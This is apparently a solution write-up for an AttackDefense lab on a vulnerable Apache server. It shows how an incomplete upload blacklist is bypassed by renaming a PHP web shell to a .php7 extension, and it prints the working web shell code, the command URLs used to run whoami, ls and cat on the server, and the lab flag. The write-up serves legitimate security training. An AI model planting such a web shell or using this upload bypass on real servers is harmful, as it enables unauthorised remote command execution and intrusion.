

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">Vulnerable Apache V </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://www.attackdefense.com/challengedetails?cid=201>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">Infrastructure Attacks : Apache </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

The target server has not been properly secured against arbitrary file upload and execution vulnerability. The administrator has used a blacklisting approach but forgotten to add other executable file extensions to this list. This example also proves why blacklisting is not considered a good security measure. 

**Objective:** Your objective is to upload a web shell, execute arbitrary commands on the server and retrieve the flag! 

**Solution: ![ref2]**

**Step 1:** Inspect the web application. 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/ 



**Step 2:** Create a simple web shell. 

Save the below given php script as shell.php 

<?php 

$output = shell\_exec($\_GET["cmd"]); echo "<pre>$output</pre>"; 

?> 



**Step 3:** Upload the webshell to the web server. ![ref2]

Click on the browse button and upload the php script. 

![ref1]

**Step 4:** Click on the hyperlink generated after uploading the php script  

![ref3]

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php ![ref2]
![ref1]



The uploaded php script is treated as a data file. 

**Step 5:** Make a copy of the php webshell and save it with filename “shell.php7” 

**Commands:**  

cp ~/Downloads/shell.php ~/Downloads/shell.php7 cat ~/Downloads/shell.php7 



**Step 6:** Navigate to the homepage of the web application and upload the webshell to the web server. 

**URL:**  http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com Click on the browse button and upload the php script. ![ref2]

**Step 7:** Click on the hyperlink generated after uploading the php script  

![ref3]

![ref1]

No output is returned since the cmd parameter was not passed. **Step 8:** Execute system commands through “cmd” GET parameter. **Command:** whoami 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=whoa mi** 



**Step 9:** Enumerate files stored on the web server. **Command:** pwd 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=pwd  



**Command:** ls -l /app/ ![ref2]

![ref1]

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=ls+-l+ /app 



The flag location is revealed. 

**Step 10:** Retrieve the flag 

**Command:** cat /app/5bcb2ead4f308eed-flag 

**URL:** http://9t6i9azh6z6cr4mtczjfbl114.public2.attackdefenselabs.com/uploads/shell.php7?cmd=cat+/ app/5bcb2ead4f308eed-flag 



**Flag:** 314865581322ae4b300fff127331690c 

**References:  ![ref2]**

1\. Apache httpd (<https://httpd.apache.org/>)  

[ref1]: Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.002.png
[ref2]: Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.003.png
[ref3]: Aspose.Words.c1b4946b-06d3-4057-9a55-49d5758b8cbc.007.jpeg
